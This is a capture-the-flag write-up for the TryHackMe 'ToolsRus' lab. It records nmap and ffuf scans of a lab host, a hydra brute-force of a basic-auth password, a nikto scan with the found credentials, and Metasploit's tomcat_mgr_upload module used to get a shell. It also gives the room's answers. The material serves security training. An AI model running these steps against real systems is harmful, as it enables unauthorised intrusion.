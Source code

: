 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . ToolsRus
# DESCRIPTION       . Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/toolsrus
```

```bash
sudo nmap -sSVC -T5 10.10.75.25 -p- -oN toolsrus
```

```
PORT     STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d65b83ac39f5acb4bc147742a7a5a5fc (RSA)
|   256 869a54f60aa086f8790cc8769042de19 (ECDSA)
|_  256 708f6a2df1fcfd92649705dd2eeebdaa (ED25519)

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
ffuf -u http://10.10.75.25/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
guidelines              [Status: 301, Size: 315, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 168, Words: 16, Lines: 5]
protected               [Status: 401, Size: 458, Words: 42, Lines: 15]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```


> What directory can you find, that begins with a "g"?

- guidelines

> Whose name can you find from this directory?

```
Hey bob, did you update that TomCat server? 
```

- bob

> What directory has basic authentication?

- protected

> What is bob's password to the protected part of the website?

```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt http-get /protected
```

> What other port that serves a webs service is open on the machine?

- 1234

> What is the name and version of the software running on the port from question 5?

- _http-title: Apache Tomcat/7.0.88

> Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.
  How many documentation files did Nikto identify?

```
nikto -id bob:[password] -h http://10.10.75.25:1234/manager/html
```

- 5

> What is the server version?

_http-server-header: Apache/2.4.18 (Ubuntu)

> What version of Apache-Coyote is this service using?

_http-server-header: Apache-Coyote/1.1

> Use Metasploit to exploit the service and get a shell on the system.
  What user did you get a shell as?

- After some googling around, I found out that Apache Coyote 1.1 is vulnerable by using the metasploit `tomcat_mgr_upload` module.

```
use exploit/multi/http/tomcat_mgr_upload
```

- set `HttpPasswsord`, `Httpusername`, `RHOSTS`, `RPORT` and `run`.

- flag is in `/root/flag.txt`

